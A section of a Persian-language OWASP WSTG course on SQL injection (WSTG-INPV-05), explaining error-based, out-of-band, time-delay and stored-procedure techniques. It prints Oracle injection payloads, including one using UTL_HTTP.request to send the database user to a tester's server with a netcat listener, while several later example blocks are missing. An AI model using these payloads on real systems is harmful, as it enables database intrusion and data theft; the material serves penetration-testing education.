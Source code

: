 # بررسی SQL Injection

در این بخش از دوره آموزشی OWASP-WSTG به هفتمین بخش از استاندارد WSTG با شناسه WSTG-INPV-05 می پردازیم که مربوط به بررسی SQL Injection می باشد. لازم به ذکر است با توجه به طولانی بودن مبحث تزریق SQL، این بخش از استاندارد OWASP در چندین قسمت قرار داده می شود.

### تکنیک Error Based Exploitation Technique

یک تکنیک Error Based Exploitation زمانی مفید است که تست نفوذگر به دلایلی نمی‌تواند از آسیب‌پذیری تزریق SQL با استفاده از تکنیک‌های دیگر مانند Union استفاده کند. تکنیک Error Based Exploitation شامل مجبور کردن پایگاه‌داده برای اجرای برخی از عملیات‌ها می‌باشد که نتیجه آن بروز یک خطا خواهد بود. سپس تلاش برای استخراج برخی از داده‌ها از پایگاه‌داده و نشان دادن آن در پیام خطا است. این تکنیک بهره‌برداری می‌تواند از DBMS به DBMS دیگر متفاوت باشد.

پرس و جوی SQL زیر را در نظر بگیرید:
```sql
SELECT * FROM products WHERE id_product=$id_product
```


همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:
```url
http://www.example.com/product.php?id=10
```
درخواست بدخواهانه می‌تواند (به عنوان مثال برای Oracle 10g) به شکل زیر باشد:
```sql
http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
```
در این مثال، تست نفوذگر مقدار ۱۰ را با نتیجه تابع UTL_INADDR.GET_HOST_NAMEالحاق می‌کند. این تابع در Oracle تلاش خواهد کرد تا Hostname پارامتری که به آن ارسال شده است را بازگرداند که عبارت دیگر کوئری، نام کاربر است. زمانی که پایگاه‌داده به دنبال یک نام میزبان با نام پایگاه‌داده کاربر باشد، شکست خواهد خورد و یک پیغام خطا مانند زیر نمایش می‌دهد:
```text
ORA-292257: host SCOTT unknown
```
سپس تست نفوذگر می‌تواند پارامتر منتقل‌شده به تابع GET_HOST_NAME() را دستکاری کند و نتیجه در پیام خطا نشان داده خواهد شد.

### تکنیک Out of Band Exploitation Technique

این تکنیک زمانی بسیار مفید است که تست نفوذگر یک SQL Injection از نوع Blind را پیدا کند که در آن هیچ چیز در مورد نتیجه یک عملیات معلوم نیست. این تکنیک شامل استفاده از توابع DBMS برای انجام یک اتصال خارج از باند و تحویل نتایج پرس و جوی تزریق‌شده به عنوان بخشی از درخواست به سرور تست نفوذگر است. مانند تکنیک‌های مبتنی بر خطا، هر DBMS ویژگی‌های مخصوص به خود را دارد.

پرس و جوی SQL زیر را در نظر بگیرید:
```sql
SELECT * FROM products WHERE id_product=$id_product
```
همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:
```url
http://www.example.com/product.php?id=10
```

درخواست بدخواهانه می‌تواند به شکل زیر باشد:
```sql
http://www.example.com/product.php?id=10||UTL_HTTP.request('testerserver.com:80' || (SELECT user FROM DUAL)--
```
در این مثال، تست نفوگر مقدار ۱۰ را با نتیجه تابع UTL_HTTP.requestبه هم متصل می‌کند. این تابع Oracle تلاش خواهد کرد تا به testerserver متصل شود و یک درخواست HTTP GET شامل بازگشت از کاربر SELECT پرس و جو از DAL ایجاد کند. تستر می‌تواند یک وب سرور (‏به عنوان مثال Apache)‏ایجاد کند یا از ابزار Netcat استفاده کند:

'''
/home/tester/nc -nLp 80
GET /SCOTT HTTP/1.1 
Host: testerserver.com 
Connection: close
'''
### تکنیک Time Delay Exploitation Technique

تکنیک Time Delay Exploitation زمانی بسیار مفید است که تست نفوذگر آسیب پذیری Blind SQL Injection ای را پیدا کند که در آن نتیجه یک عملیات، مشخص نیست.
این تکنیک شامل ارسال یک پرس و جوی دارای تاخیر زمانی به سمت برنامه بوده و تست نفوذگر می‌تواند با بررسی زمان پاسخ بازگشت داده شده از سرور، در صورت صحیح بودن شرایط، اطلاعات مورد نظر را استخراج نماید. این تکنیک بهره‌برداری می‌تواند از DBMS به DBMS دیگر متفاوت باشد.

پرس و جوی SQL زیر را در نظر بگیرید:

همچنین برنامه ای را در نظر بگیرید که پرس و جوی بالا را اجرا می‌کند:

درخواست مخرب می‌تواند به عنوان مثال در MySql نسخه 5 به شکل زیر باشد:

در این مثال، تست نفوذگر بررسی می‌کند که آیا نسخه MySql ۵ است یا خیر. وی می‌تواند زمان تاخیر را افزایش دهد و پاسخ‌ها را نظارت کند.

### تکنیک Stored Procedure Injection

هنگام استفاده از SQL پویا در یک Stored Procedure، برنامه باید به درستی ورودی کاربر را برای از بین بردن خطر تزریق کد، Sanitize کند. اگر پاک‌سازی به درستی انجام نشود، کاربر می‌تواند دستورات SQL مورد نظر خود را وارد نماید که در Stored Procedure اجرا خواهد شد.

این Stored Procedure زیر را در نظر بگیرید:

ورودی کاربر:

این روش ورودی را Sanitize نمی‌کند، بنابراین به مقدار بازگشت اجازه می‌دهد تا یک رکورد موجود با این پارامترها را نشان دهد.

این مثال ممکن است به دلیل استفاده از SQL پویا برای ورود یک کاربر، غیر محتمل به نظر برسد، اما یک Dynamic Reporting Query را در نظر بگیرید که در آن کاربر ستون‌ها را برای مشاهده انتخاب می‌کند. کاربر می‌تواند کد مخرب را وارد این سناریو کرده و داده‌ها را به خطر بیاندازد.

مورد Stored Procedure زیر را در نظر بگیرید:

ورودی کاربر:

این امر منجر به اجرای گزارش و به روز رسانی تمام گذرواژه‌های کاربران خواهد شد.
